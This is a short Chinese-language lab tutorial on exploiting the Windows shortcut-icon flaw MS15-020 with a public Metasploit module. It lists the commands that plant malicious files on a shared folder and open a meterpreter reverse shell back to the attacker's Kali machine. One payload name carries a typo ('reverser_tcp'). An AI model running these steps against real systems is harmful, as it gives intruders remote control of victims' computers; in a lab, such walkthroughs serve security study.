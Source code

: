 ```yaml
---
title: Metasploit MS15-020漏洞利用
tags: Metasploit
layout: post
---
```



环境：
共享机/受害者：windows xp 		IP:192.168.222.1
攻击机：kali linux  				IP:192.168.10.1


```
msfconsole  //在kali终端输入msfconsole进入控制台

search ms15-020 //搜索ms15-020漏洞

use exploit/windows/fileformat/ms15_020_shortcut_icon_dllloader //使用该模块

show options //显示所有参数

set payload windows/meterpreter/reverse_tcp //设置payload

```
![这里写图片描述](https://img-blog.csdn.net/20180506104117344?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

设置参数：

```
set unchost 192.168.222.1 //共享的主机地址
set uncshare //共享的文件夹名
set lhost 192.168.10.1 //攻击机IP地址 
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180506104925374?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
>运行后会生成三个文件，将三个文件放到共享机的share目录下。

继续在msf中使用handler进行监听：

```
use exploit/multi/handler
set payload windows/meterpreter/reverser_tcp
set lhost 192.168.10.1
exploit
```
![这里写图片描述](https://img-blog.csdn.net/20180506110005738?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

>以上设置完成之后在当别的用户再访问这个共享文件夹时就可以直接获得meterpreter

![这里写图片描述](https://img-blog.csdn.net/20180506111138581?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
![这里写图片描述](https://img-blog.csdn.net/20180506111152942?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
